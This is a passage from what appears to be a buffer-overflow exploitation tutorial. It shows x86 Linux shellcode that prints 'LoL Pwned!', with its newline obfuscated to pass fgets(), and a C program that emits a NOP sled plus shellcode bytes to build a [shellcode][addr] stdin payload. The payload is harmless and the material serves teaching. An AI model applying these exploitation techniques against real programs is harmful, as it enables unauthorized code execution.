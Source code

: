Good exploit etiquette is showing your shellcode and what it does, here's some simple shellcode to print to the screen:
	
    ; "LoL Pwned!" Shellcode
    ;; stolen from dade murphy's personal library
    
    global _start;
    
    _start:
    xor ebx, ebx;
    xor edx, edx;
    xor ecx, ecx;
    push ebx;
    
    ;stackfhex generated string
    ;slight mods for passing to fgets()
    mov eax, 0x1f224566
    sub eax, 0x15010101
    push eax
    push 0x6e775020
    mov eax, 0x4c6f4c1f
    sub al, 15
    push eax;
    xor eax, eax;
    mov al, 4;
    mov bl, 1;
    mov ecx, esp;
    mov dl, 12;
    int 0x80;
    
    mov al,1;
    int 0x80;

The assembly above prints `"LoL Pwned!\n"` to the screen. It has some slight modifications to obfuscate the 0x0a, so that the `fgets()` doesn't stop reading on the shellcode. To actually exploit the vulnerable example, we will need to have something to feed in our exploit payload to stdin. Because drraid is a lazy piece of shit, we will be cheap and lazy and achieve the input to stdin of our vulnerable program through bash redirects. This will work by storing the binary of our shellcode in a file, followed by the return address (which we will get later from the program calling execve) - this results in the classic [shellcode][addr] payload format. To get the shellcode to a file we will do:

    /* write_shellcode.c */
    #include <stdio.h>
    #include <string.h>
    #include <unistd.h>
    #include <stdlib.h>

    int main(int argc, char *argv[])
    {
        char shellcode[]=
        /* 'inc ecx' nop sled */
        "\x41\x41\x41\x41\x41\x41\x41\x41"
        "\x41\x41\x41\x41\x41\x41\x41\x41"
        "\x41\x41\x41\x41\x41\x41\x41\x41"
        "\x41\x41\x41\x41\x41\x41\x41\x41"
        /* to the shellcode rockbed */
        "\x41\x41\x41\x41\x41\x31\xdb\x31"
        "\xd2\x31\xc9\x53\xb8\x66\x45\x22"
        "\x1f\x2d\x01\x01\x01\x15\x50\x68"
        "\x20\x50\x77\x6e\xb8\x1f\x4c\x6f"
        "\x4c\x2c\x0f\x50\x31\xc0\xb0\x04"
        "\xb3\x01\x89\xe1\xb2\x0c\xcd\x80"
        "\xb0\x01\xcd\x80"; /* ret here */
        write(1, shellcode, 84);
    }
